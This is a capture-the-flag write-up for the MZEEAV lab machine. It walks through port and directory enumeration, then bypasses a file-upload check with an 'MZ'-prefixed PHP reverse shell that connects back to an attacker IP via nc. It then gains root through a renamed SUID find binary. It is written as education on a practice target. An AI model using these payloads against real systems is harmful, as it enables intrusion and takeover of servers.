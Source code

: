# MZEEAV f.k.a. CTF-200-02 (rough notes)

Initial port scan:

```
┌──(kali㉿kali)-[~/offsec/ctf-200-02]
└─$ nmap -v -Pn -p- -T4 ctf-200-02                             
...

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Service version fingerprinting:

```
┌──(kali㉿kali)-[~/offsec/ctf-200-02]
└─$ nmap -v -Pn -p 22,80 -A ctf-200-02
...

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: MZEE-AV - Check your files
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

This one is interesting... we never get just one possible target (the http server)...

The webserver itself doesn't give anything away... just gives us "MZEE-AV 2022".

![](./assets/80-mzeeav.png)

Enumerating the webserver for paths with `gobuster`:

```
┌──(kali㉿kali)-[~/offsec/ctf-200-02]
└─$ gobuster dir -u http://ctf-200-02/ -t 20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://ctf-200-02/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/upload               (Status: 301) [Size: 309] [--> http://ctf-200-02/upload/]
/backups              (Status: 301) [Size: 310] [--> http://ctf-200-02/backups/]
```

Still running, but checking those 2 out... the `/upload` path just serves the text "nothing to see here - try harder". The `/backups` path however, serves a directory with a zip file.

Inspecting the contents of the zip file, it is the entire `/var/www/html` contents, including the source code for this application.

Looking at the code it seems that all uploaded files are made available in the `/upload/$FILENAME` path.

Here's my first attempt at uploading a reverse shell and looking for it... the app changed the filename to `file.tmp` so I searched for it with that name:

![](./assets/first-attempt.png)

The reverse shell should work, we just need to figure out a way to keep the `.php` file extension so that the server executes it when we navigate there...

Diving deeper into the webserver's source code, it seems the uploaded files will be renamed to `file.tmp` unless the file contains certain bytes...

```
/* Check MagicBytes MZ PEFILE 4D5A*/
$F=fopen($tmp_location,"r");
$magic=fread($F,2);
fclose($F);
$magicbytes = strtoupper(substr(bin2hex($magic),0,4)); 
error_log(print_r("Magicbytes:" . $magicbytes, TRUE));

/* if its not a PEFILE block it - str_contains onlz php 8*/
//if ( ! (str_contains($magicbytes, '4D5A'))) {
if ( strpos($magicbytes, '4D5A') === false ) {
	echo "Error no valid PEFILE\n";
	error_log(print_r("No valid PEFILE", TRUE));
	error_log(print_r("MagicBytes:" . $magicbytes, TRUE));
	exit ();
}

rename($tmp_location, $location);
```

The code is reading the first 2 bytes of the file, then converting the ASCII from binary to hex, then checking that the hex matches `4D5A`...

This matches the ASCII characters `MZ` (see [ASCII table](https://condor.depaul.edu/sjost/it236/documents/ascii.htm))... so if I understand correctly our file needs to start with the ASCII `MZ` in order to retain its original file name...

Let's put that to the test. I change my reverse shell from 

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.172 80 >/tmp/f");?>
```

to

```
MZ<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.172 80 >/tmp/f");?>
```

I set up my local listener on port 80 where we will catch a shell if this works.

I try uploading it again.

This time I notice right away we kept our filename, and when I manually navigate to `/upload/mz-rshell.php` the page hangs (which might mean our reverse shell is running).

![](./assets/second-attempt.png)

I check my reverse shell and indeed, we are in:

```
┌──(kali㉿kali)-[~/Desktop/upload-me]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.172] from (UNKNOWN) [192.168.176.33] 49888
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

We find our first flag where we usually expect it (a user's home directory):

```
$ cd /home
$ ls
avuser
$ cd avuser
$ ls
local.txt
$ cat local.txt
53ace38835afa69a4a6ece4dca4405a7
```

We also learn about user `avuser`.

## Privilege Escalation

Time for LinPEAS!

Nothing resolved in this machine, so I download it to Kali and serve it over http in order to fetch it from the victim host.

```
www-data@mzeeav:/etc$ curl -L http://192.168.45.172:22/linpeas.sh | sh
```

That works. From the results the only promising finding really is an uknown SUID binary.

```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
strings Not Found
strace Not Found
---s--s--x 1 root root 304K Nov 14 00:04 /opt/fileS (Unknown SUID binary!)
```

I run that binary with the `--help` flag and I get the following help menu:

```
www-data@mzeeav:/opt$ ./fileS --help
./fileS --help
Usage: ./fileS [-H] [-L] [-P] [-Olevel] [-D debugopts] [path...] [expression]

default path is the current directory; default expression is -print
expression may consist of: operators, options, tests, and actions:
operators (decreasing precedence; -and is implicit where no others are given):
      ( EXPR )   ! EXPR   -not EXPR   EXPR1 -a EXPR2   EXPR1 -and EXPR2
      EXPR1 -o EXPR2   EXPR1 -or EXPR2   EXPR1 , EXPR2
positional options (always true): -daystart -follow -regextype

normal options (always true, specified before other expressions):
      -depth --help -maxdepth LEVELS -mindepth LEVELS -mount -noleaf
      --version -xdev -ignore_readdir_race -noignore_readdir_race
tests (N can be +N or -N or N): -amin N -anewer FILE -atime N -cmin N
      -cnewer FILE -ctime N -empty -false -fstype TYPE -gid N -group NAME
      -ilname PATTERN -iname PATTERN -inum N -iwholename PATTERN -iregex PATTERN
      -links N -lname PATTERN -mmin N -mtime N -name PATTERN -newer FILE
      -nouser -nogroup -path PATTERN -perm [-/]MODE -regex PATTERN
      -readable -writable -executable
      -wholename PATTERN -size N[bcwkMG] -true -type [bcdpflsD] -uid N
      -used N -user NAME -xtype [bcdpfls]      -context CONTEXT

actions: -delete -print0 -printf FORMAT -fprintf FILE FORMAT -print 
      -fprint0 FILE -fprint FILE -ls -fls FILE -prune -quit
      -exec COMMAND ; -exec COMMAND {} + -ok COMMAND ;
      -execdir COMMAND ; -execdir COMMAND {} + -okdir COMMAND ;

Valid arguments for -D:
exec, opt, rates, search, stat, time, tree, all, help
Use '-D help' for a description of the options, or see find(1)

Please see also the documentation at http://www.gnu.org/software/findutils/.
You can report (and track progress on fixing) bugs in the "./fileS"
program via the GNU findutils bug-reporting page at
https://savannah.gnu.org/bugs/?group=findutils or, if
you have no web access, by sending email to <bug-findutils@gnu.org>.
```

Following the [link in the help menu](https://www.gnu.org/software/findutils/) this looks like just a rename of the usual `find` binary.

Looking up [`find` in GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid) gives us a way to get a shell as root:

```
./find . -exec /bin/sh -p \; -quit
```

So we can probably do it with

```
./fileS . -exec /bin/sh -p \; -quit
```

Let's try:

```
www-data@mzeeav:/opt$ ./fileS . -exec /bin/sh -p \; -quit
./fileS . -exec /bin/sh -p \; -quit
# whoami
whoami
root
```

Success!

We find our proof in the usual location:

```
# cat /root/proof.txt
cat /root/proof.txt
2805186e1547d425c906192189086665
```
